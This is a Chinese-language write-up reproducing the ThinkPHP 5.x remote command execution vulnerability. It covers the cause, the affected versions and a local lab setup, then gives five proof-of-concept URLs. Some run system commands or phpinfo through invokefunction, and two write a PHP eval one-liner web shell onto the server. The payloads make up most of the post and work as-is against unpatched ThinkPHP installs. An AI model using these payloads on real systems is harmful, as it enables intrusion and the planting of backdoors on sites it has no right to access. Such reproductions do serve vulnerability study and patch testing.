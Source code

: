 # 原创
：  ThinkPHP5.x-远程命令执行漏洞

# ThinkPHP5.x-远程命令执行漏洞

#### ThinkPHP 5.x远程命令执行漏洞

## 漏洞原因

> 
由于框架对控制器名没有进行足够的检测，导致在没有开启强制路由(默认未开启)的情况下可能导致远程代码执行


## 漏洞影响版本

> 
Thinkphp 5.x-Thinkphp 5.1.31<br/> Thinkphp 5.0.x&lt;=5.0.23


## 漏洞复现

### 搭建漏洞环境

> 
官网下载Thinkphp 5.0.22，[下载地址](http://www.thinkphp.cn/donate/download/id/1260.html)<br/> 使用phpstudy搭建环境，解压下载的Thinkphp5.0.22到网站目录下，浏览器访问即可


### POC1

```
http://localhost:9091/public/index.php?s=index/think\app/invokefunction&amp;function=call_user_func_array&amp;vars[0]=system&amp;vars[1][]=whoami

```

### POC2&amp;POC3

```
http://localhost:9091/public/index.php?s=/Index/\think\app/invokefunction&amp;function=call_user_func_array&amp;vars[0]=phpinfo&amp;vars[1][]=-1

```

```
http://localhost:9091/public/index.php?s=index/think\app/invokefunction&amp;function=call_user_func_array&amp;vars[0]=phpinfo&amp;vars[1][]=-1

```

### POC4&amp;POC5

```
http://localhost:9091/public/index.php?s=/index/\think\app/invokefunction&amp;function=call_user_func_array&amp;vars[0]=system&amp;vars[1][]=echo%20^%3C?php%20@eval($_POST[cmd]);?^%3E%20%3Eshell.php

```

```
http://localhost:9091/public/index.php?s=index/think\app/invokefunction&amp;function=call_user_func_array&amp;vars[0]=file_put_contents&amp;vars[1][]=../test.php&amp;vars[1][]=&lt;?php @eval($_POST[test]);?&gt;

```
